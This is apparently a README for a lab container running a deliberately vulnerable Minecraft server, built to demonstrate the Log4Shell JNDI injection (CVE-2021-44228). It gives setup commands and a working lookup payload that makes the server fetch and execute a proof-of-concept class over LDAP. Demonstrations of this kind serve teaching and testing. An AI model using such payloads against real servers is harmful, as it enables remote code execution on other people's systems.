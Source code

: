 # Minecraft Log4shell CVE-2021-44228

```
podman pull docker.io/lacike3/attacks-demo:minecraft-log4shell
```

The Docker image contains the old version of Minecraft 1.8.8 with vulnerable version of Log4j library. It also contains old version of Java 8u181. This is one of the versions allowing the remote code execution through JNDI lookups with LDAP names. You can find more details about the Log4j exploitation vectors and affected Java runtime versions in [this post by Moritz Bechler](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/).

There is also the [marshalsec](https://github.com/mbechler/marshalsec) tool for redirecting the LDAP references to a Java class served by simple Python webserver.

The POC Java class just executes the `whoami` command and prints a simple message.

![Minecraft Log4shell Demonstration](./minecraft-log4shell.gif)

## Build

```
podman build --rm -t minecraft-log4shell -f Dockerfile .
```

## Usage

For simple demo and playing with the vulnerable Minecraft server in the tmux session, just run

```
podman run --rm -it attacks-demo:minecraft-log4shell
```

and then navigate to the Minecraft window with CTRL+B and Up. You can send the chat messages in behalf of the server with the command `say`, e.g.:
* `say hello`
* `say ${env:PATH}` (example of environment variable lookup)
* `say ${jndi:ldap://127.0.0.1:1389/Log4Shell}` (example of JNDI LDAP lookup, which downloads and executes POC.class by the vulnerable Minecraft server)

For stopping the server, just type `stop`. For another commands and help, type `help`.

If you wish to connect your Minecraft client to the vulnerable Minecraft server and send the above messages by the player to the chat, you can expose the Minecraft server to the localhost:

```
podman run --rm -it -p 25565:25565 attacks-demo:minecraft-log4shell
```
